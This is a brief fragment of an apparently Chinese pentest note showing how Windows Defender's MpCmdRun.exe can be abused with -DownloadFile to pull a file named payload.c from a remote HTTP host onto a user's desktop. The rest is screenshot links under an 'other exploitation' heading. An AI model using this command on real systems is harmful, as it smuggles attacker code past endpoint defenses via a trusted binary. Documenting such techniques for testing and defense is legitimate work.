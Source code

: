 	C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0>MpCmdRun.exe -DownloadFile -url http://192.168.2.105:8000/payload.c -path c:\\users\\test\\desktop\\1.c
![image](/assets/Pentest_Note/master/img/812.png)
		
	其他利用
![image](/assets/Pentest_Note/master/img/812-2.png)
![image](/assets/Pentest_Note/master/img/812-3.jfif)
![image](/assets/Pentest_Note/master/img/812-4.jfif)
